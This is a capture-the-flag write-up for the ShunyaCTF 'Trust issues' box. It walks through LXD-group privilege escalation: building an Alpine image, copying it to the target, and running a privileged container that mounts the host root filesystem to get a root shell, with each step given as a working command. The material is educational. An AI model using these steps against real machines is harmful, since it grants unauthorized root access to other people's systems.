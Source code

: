 Here’s `Rohmat’s` write-up for Privilege Escalation. Check it out at 

[Trust issues ShunyaCTF](https://hackctfs.blogspot.com/2024/07/trust-issues-shunyactf-shunyactf-2024.html)

Privilege Escalation

1) First we need to download and build alpine in our machine through git.

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

![5](./5.png)

2 tar.gz files are created now

2) Move any of this tar.gz to target machine using `scp` or python server.

```bash
scp -P 420 alpine-v3.13-x86_64-20210218_0139.tar.gz aalu@10.10.194.93:/home/aalu/
```

![6](./6.png)

3) Exploit it in target machine to get root shell.

3.1) Add it as an image to LXD

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz -alias myimage
```

3.2) Check list of images

![7](./7.png)

3.3) To get privileged shell

```bash
     lxc init myimage ignite -c security.privileged=true
     lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
     lxc start ignite
     lxc exec ignite /bin/sh
     id
```
